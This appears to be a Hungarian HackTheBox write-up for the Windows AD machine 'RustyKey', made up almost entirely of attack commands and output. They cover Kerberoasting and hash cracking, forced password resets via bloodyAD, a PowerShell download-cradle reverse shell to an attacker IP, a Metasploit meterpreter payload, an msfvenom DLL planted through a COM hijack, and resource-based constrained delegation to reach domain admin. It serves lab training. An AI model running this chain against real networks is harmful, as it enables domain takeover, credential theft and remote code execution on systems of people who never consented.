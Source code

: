 **Platform:** Windows  
**IP:** 10.129.105.53  
**Difficulty:** Hard  
**Author:** NoSec

> 🚨 **Kövess élőben HTB-n — leakek, dropok és mély writeupok**  
> 👉 [t.me/nosecpwn](https://t.me/nosecpwn)  
> _Ne olvasd. Csatlakozz._

---

## Recon

```bash
nmap -sC -sV -Pn 10.129.105.53
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-28 23:25 CEST
Stats: 0:00:11 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 83.33% done; ETC: 23:25 (0:00:01 remaining)
Nmap scan report for 10.129.188.219
Host is up (0.099s latency).
Not shown: 988 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-06-29 05:25:30Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: rustykey.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: rustykey.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 7h59m47s
| smb2-time: 
|   date: 2025-06-29T05:25:41
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.65 seconds
```

Kapunk alapból egy felhasználó jelszó párost a géphez, 

```
rr.parker / 8#t5HE8L!W3A
```

Hosts fájl szerkesztése

```bash
sudo nano /etc/hosts
10.129.105.53		rustykey.htb dc.rustykey.htb
```

Idő szinkron fontos, 

```bash
sudo rdate -n RUSTYKEY.HTB
```

## Bloodhound

```bash
bloodhound-python -u 'rr.parker' -p '8#t5HE8L!W3A' -d rustykey.htb -dc dc.rustykey.htb -gc dc.rustykey.htb -ns 10.129.105.53 --disable-autogc -c all --zip
```

Az IT-COMPUTER3-nak van joga hozzáadnia magát a helpdeskhez, a helpdesknek ForceChangePassword joga van BB.Morgan felett, ezt fogjuk kihasználni.

Szerezzük meg a jelszavát

```bash
impacket-GetUserSPNs 'rustykey.htb/rr.parker:8#t5HE8L!W3A' -k -request -dc-ip 10.129.105.53 -dc-host dc.rustykey.htb -usersfile users.txt -outputfile comp3.hash
```

Hashcatel törjük fel

```bash
hashcat -m 13100 comp3.hash /usr/share/wordlists/rockyou.txt
```

Jelszó: Rus<pass>

## Csoporthoz adás + jelszómódosítás

```bash
bloodyAD --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rus<pass>' -k add groupMember HELPDESK 'IT-COMPUTER3$'
[+] IT-COMPUTER3$ added to HELPDESK
```
```bash
bloodyAD --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rus<pass>' -k set password BB.MORGAN 'Password1234'
[+] Password changed successfully!
```
```bash
bloodyAD --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rus<pass>' -k set password EE.REED 'Password123'
[+] Password changed successfully!
```

## Protected Objects törlés

```bash
bloodyAD --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rus<pass>' -k remove groupMember 'PROTECTED OBJECTS' 'IT'
[-] IT removed from PROTECTED OBJECTS
```

## Kerberos conf beállítás

```bash
sudo nano /etc/krb5.conf
```

```
[libdefaults]
    default_realm = RUSTYKEY.HTB
    dns_lookup_realm = false
    dns_lookup_kdc = false
    forwardable = true
    rdns = false

[realms]
    RUSTYKEY.HTB = {
        kdc = dc.rustykey.htb
        admin_server = dc.rustykey.htb
    }

[domain_realm]
    .rustykey.htb = RUSTYKEY.HTB
    rustykey.htb = RUSTYKEY.HTB
```

## User flag

```bash
impacket-getTGT 'RUSTYKEY.HTB/BB.MORGAN:Password1234'
export KRB5CCNAME=BB.MORGAN.ccache
```
```bash
evil-winrm -i dc.rustykey.htb -r RUSTYKEY.HTB
```
```bash
└─$ evil-winrm -i dc.rustykey.htb -r RUSTYKEY.HTB
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\bb.morgan\Documents> ls
*Evil-WinRM* PS C:\Users\bb.morgan\Documents> cd ..
*Evil-WinRM* PS C:\Users\bb.morgan> cd Desktop
*Evil-WinRM* PS C:\Users\bb.morgan\Desktop> ls


    Directory: C:\Users\bb.morgan\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         6/4/2025   9:15 AM           1976 internal.pdf
-ar---        6/29/2025  12:56 PM             34 user.txt
```

## Reverse shell ee.reed userrel

```bash
rlwrap nc -lvnp 5566
```

```bash
IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.90:8888/Invoke-RunasCs.ps1'); Invoke-RunasCs -Username ee.reed -Password Password123! -Command cmd.exe -Remote 10.10.14.90:5566
```

## Web Delivery és COM hijack, mm.turner reverse shell

```bash
rlwrap msfconsole -q -x 'use exploit/multi/script/web_delivery; set SRVPORT 8899; set LPORT 8989; set LHOST tun0; set TARGET PSH; set PAYLOAD windows/x64/meterpreter/reverse_tcp; run'
```

Miután ez lefutott, futtatjuk a célgépen a generált PS parancsot.

```bash
msfvenom -p windows/x64/exec CMD='<base64_encoded_ps>' EXITFUNC=none -f dll > x.dll
```

```bash
curl http://10.10.14.90:8888/x.dll -o \programdata\x.dll
```

```bash
reg add "HKLM\SOFTWARE\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32" /ve /t REG_SZ /d "C:\\programdata\\x.dll" /f
```
```bash
rundll32.exe C:\\programdata\\x.dll,DllRegisterServer
```

## RBCD mm.turnerrel

```bash
Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount IT-COMPUTER3$
```
```bash
impacket-getST -spn 'cifs/DC.rustykey.htb' -impersonate backupadmin -dc-ip $ip -k 'RUSTYKEY.HTB/IT-COMPUTER3$:Rus<pass>'
```
```bash
export KRB5CCNAME=backupadmin@cifs_DC.rustykey.htb@RUSTYKEY.HTB.ccache
```

## Root flag megszerzése

```bash
timpacket-smbexec -k -no-pass 'RUSTYKEY.HTB/backupadmin@dc.rustykey.htb'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>dir C:\Users\Administrator\Desktop
 Volume in drive C has no label.
 Volume Serial Number is 00BA-0DBE

 Directory of C:\Users\Administrator\Desktop

06/24/2025  10:00 AM    <DIR>          .
06/24/2025  10:00 AM    <DIR>          ..
06/30/2025  07:32 AM                34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)   2,911,215,616 bytes free
               
type C:\Users\Administrator\Desktop\root.txt
```

---
> Kövess további writeupokért, real-time leakekért és tanulási anyagokért:
> **👉 [https://t.me/nosecpwn](https://t.me/nosecpwn)**

